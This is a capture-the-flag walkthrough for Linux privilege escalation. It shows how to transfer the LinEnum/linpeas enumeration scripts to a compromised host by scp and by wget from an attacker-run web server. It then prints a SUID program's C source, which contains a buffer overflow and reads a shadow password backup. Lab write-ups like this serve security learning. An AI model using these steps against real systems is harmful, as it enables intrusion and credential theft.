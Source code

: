 ### Method 1: SCP

Since you have ssh access on the machine you can use SCP to copy files over. In the case of Linenum you would run `scp {path to linenum} {user}@{host}:{path}`. Example: `scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp`
 would put LinEnum in /tmp.

### Method 2: SimpleHTTPServer

SimpleHTTPServer is a module that hosts a basic webserver on your host machine. Assuming the machine you compromised has a way to remotely download files, you can host LinEnum and download it.

Note: There are numerous ways to do this! 

Once You have LinEnum on the system, its as simple as running it and looking at the output above once it finishes.

```
www-data@ubuntu:/home/pingu/.ssh$ wget http://10.21.44.172:8080/linpeas.sh
--2024-10-02 13:39:40--  http://10.21.44.172:8080/linpeas.sh
Connecting to 10.21.44.172:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 824942 (806K) [application/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 805.61K   596KB/s    in 1.4s

2024-10-02 13:39:42 (596 KB/s) - 'linpeas.sh' saved [824942/824942]
```

We can run linpeas by typing `./linpeas.sh`

Let's see if there are any privesc vector!

```
/opt/secret/root
```
The file above has SUID bit set!

## pwndbg

This given CTF challenge gives us the source code for the above program:
```
#include "unistd.h"
#include "stdio.h"
#include "stdlib.h"
void shell(){
setuid(1000);
setgid(1000);
system("cat /var/backups/shadow.bak");
}

void get_input(){
char buffer[32];
scanf("%s",buffer);
}

int main(){
get_input();
}
```
